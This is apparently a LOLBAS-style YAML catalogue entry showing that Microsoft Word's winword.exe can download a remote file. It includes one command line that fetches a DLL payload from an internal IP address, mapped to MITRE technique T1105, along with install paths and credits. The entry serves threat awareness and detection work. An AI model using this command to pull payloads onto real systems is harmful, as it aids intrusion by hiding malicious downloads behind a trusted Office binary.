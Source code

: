 ```yaml
---
Name: Winword.exe
Description: Microsoft Office binary
Author: "Reegun J (OCBC Bank)"
Created: "2019-07-19"
Commands:
  - Command: winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: "Reegun J (OCBC Bank)"
    Handle: "@reegun21"
---
```


